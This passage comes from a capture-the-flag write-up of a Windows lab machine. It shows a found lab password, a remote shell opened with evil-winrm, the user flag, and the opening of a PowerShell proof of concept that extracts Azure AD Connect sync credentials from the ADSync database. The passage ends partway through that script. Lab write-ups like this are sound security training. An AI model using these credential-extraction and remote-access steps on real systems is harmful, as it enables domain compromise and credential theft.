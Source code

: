 <img  alt="Pasted image 20240730060109" src="https://github.com/user-attachments/assets/2b6d9370-32e7-4660-acc9-1caaef5a5578">

`mhope : 4n0therD4y@n0th3r$`

## WinRM

Windows Remote Management (WinRM) is a protocol developed by Microsoft, enabling administrators to **manage and control Windows-based systems remotely** Evil-winrm is a tool which use **WinRM** service to get remote shell on the box.

```powershell
$ evil-winrm -i megabank.local -u mhope -p '4n0therD4y@n0th3r$'           
```

- **-i** for IP address
- **-u** for user
- **-p** for password

```powershell
*Evil-WinRM* PS C:\Users\mhope\Documents> type ../Desktop/user.txt
c73a161954687d3432a06aee82802977
```


# Privilege Escalation

## Enumeration

With a quick enumeration, i discover that the user **mhope** is a member of Azure Admin group.

<img  alt="Pasted image 20240730060536" src="https://github.com/user-attachments/assets/732d1c4a-48b0-4af5-b9b7-5bbeb637300f">

In **Program Files** directory i discover that the Azure AD connect is running.  

<img alt="Pasted image 20240730061119" src="https://github.com/user-attachments/assets/533e35da-b863-4f95-acd1-52da2d924e6b">

### What is Azure AD Connect

The Azure AD Connect service is essentially responsible for **synchronizing things between your local AD domain, and the Azure based domain**. However, to do this it needs privileged credentials for your local domain so that it can perform various operations such as syncing passwords etc.

I found a blog post for Azure AD Connect Privilege Escalation by XPN, he explain this pretty well. [Azure AD Connect for Red Teamers - XPN InfoSec Blog (xpnsec.com)](https://blog.xpnsec.com/azuread-connect-for-redteam/).

#### Exploitation

I copied the script and test it and it break my winrm session. Then is identified that the syntax used in the script is for EXPRESS SQL, i  modified it little bit and get the admin password.

```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

```